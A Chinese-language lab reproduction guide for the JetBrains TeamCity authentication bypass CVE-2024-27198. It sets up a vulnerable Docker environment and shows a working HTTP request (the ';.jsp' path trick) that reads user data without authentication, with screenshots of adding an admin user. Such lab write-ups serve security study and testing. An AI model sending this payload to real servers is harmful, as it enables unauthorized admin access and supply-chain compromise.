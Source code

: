 # CVE-2024-27198 JetBrains TeamCity 身份验证绕过

JetBrains TeamCity是一款由JetBrains开发的持续集成和持续交付(CI/CD)服务器。它提供了一个功能强大的平台，用于自动化构建、测试和部署软件项目。TeamCity旨在简化团队协作和软件交付流程，提高开发团队的效率和产品质量。jetBrains TeamCity发布新版本修复了两个高危漏洞JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)与JetBrains TeamCity 路径遍历漏洞(CVE-2024-27199)。未经身份验证的远程攻击者利用CVE-2024-27198可以绕过系统身份验证，创建管理员账户，完全控制所有TeamCity项目、构建、代理和构件，为攻击者执行供应链攻击。远程攻击者利用该漏洞能够绕过身份认证在系统上执行任意代码。


项目官网下载地址https://www.jetbrains.com/teamcity/download/other.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-27198
- https://www.jetbrains.com/privacy-security/issues-fixed/
- https://blog.csdn.net/shelter1234567/article/details/136542760

## 漏洞环境

执行如下命令启动一个teamcity-server:2023.11.3服务：

```
docker compose up 
```



服务启动后，可访问`http://your-ip:8111/`将自动跳转到teamcity安装向导界面

![image-20240308150727639](./0.1.png)



1，Proceed

2，选择interanl数据库 --- proceed

![image-20240308150956559](./0.2.png)

3，创建一个管理员账号

![image-20240308152024312](./0.3.png)



## 漏洞复现

1，接口未授权访问查看用户信息

```
GET /xxx?jsp=/app/rest/users/;.jsp HTTP/1.1
Host: 192.168.116.128:8111
Content-Length: 2
```

![image-20240308152353654](./1.png)

2，接口未授权添加管理员用户shelter

![image-20240308152700594](./2.png)

验证管理员用户shelter是否存在

![image-20240308152819824](./3.png)